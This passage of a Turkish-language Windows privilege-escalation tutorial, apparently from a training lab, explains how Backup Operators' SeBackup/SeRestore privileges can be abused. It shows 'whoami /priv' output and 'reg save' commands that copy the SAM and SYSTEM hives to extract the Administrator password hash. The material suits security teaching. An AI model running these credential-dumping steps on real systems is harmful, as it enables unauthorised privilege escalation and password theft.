     C:\Windows\system32>whoami
    NT AUTHORITY\SYSTEM

## Tehlikeli Yetkiler

Yetkiler, bir hesabın sistemle ilgili belirli görevleri gerçekleştirmek için sahip olduğu haklardır. Bu görevler, basit bir makineyi kapatma yetkilerinden bazı DACL tabanlı erişim kontrollerini atlama yetkilerine kadar olabilir.

Her kullanıcının aşağıdaki komutla kontrol edilebilecek bir dizi atanmış yetkileri vardır:

    whoami /priv

Windows sistemlerinde mevcut yetkilerin tam listesini burada(https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) bulabilirsiniz. Saldırganın bakış açısından yalnızca sistemde yükselmemize izin veren yetkiler ilgi çekicidir. Kullanılabilir yetkilerin kapsamlı bir listesini Priv2Admin Github projesinde(https://github.com/gtworek/Priv2Admin) bulabilirsiniz.

Her birine tek tek bakmasak da, bulabileceğiniz en yaygın yetkilerden bazılarını nasıl kötüye kullanabileceğinizi göstereceğiz.

### SeBackup / SeRestore

SeBackup ve SeRestore yetkileri, kullanıcıların mevcut herhangi bir DACL'yi göz ardı ederek sistemdeki herhangi bir dosyayı okumasına ve yazmasına olanak tanır. Bu yetkinin ardındaki fikir, belirli kullanıcıların tam yönetici yetkilerine ihtiyaç duymadan bir sistemden yedekleme yapmasına izin vermektir.

Bu güce sahip olan bir saldırgan, birçok teknik kullanarak sistemdeki yetkisini basitçe yükseltebilir. Yapacağımız şey, yerel Administrator'un şifre hash'ini çıkarmak için SAM ve SYSTEM kayıt defteri hive'larının kopyalanmasından ibarettir.

Bir ana bilgisayara eriştiğimizde bu bilgisayarın Backup Operators grubunda yer aldığını görüyoruz. Bu gruba varsayılan olarak SeBackup ve SeRestore yetkileri verilir. Bu yetkileri kullanabilmek için "Yönetici olarak aç" seçeneğini kullanarak bir komut istemi açmamız gerekecek. Yükseltilmiş bir konsol almak için şifremizi tekrar girmemiz istenecek.

Komut istemine girdikten sonra aşağıdaki komutla yetkilerimizi kontrol edebiliriz:

    C:\> whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                    State
    ============================= ============================== ========
    SeBackupPrivilege             Back up files and directories  Disabled
    SeRestorePrivilege            Restore files and directories  Disabled
    SeShutdownPrivilege           Shut down the system           Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

SAM ve SYSTEM hash'lerini yedeklemek için aşağıdaki komutları kullanabiliriz:

    C:\> reg save hklm\system C:\Users\THMBeup\system.hive
    The operation completed successfully.
    C:\> reg save hklm\sam C:\Users\THMBeup\sam.hive
    The operation completed successfully.
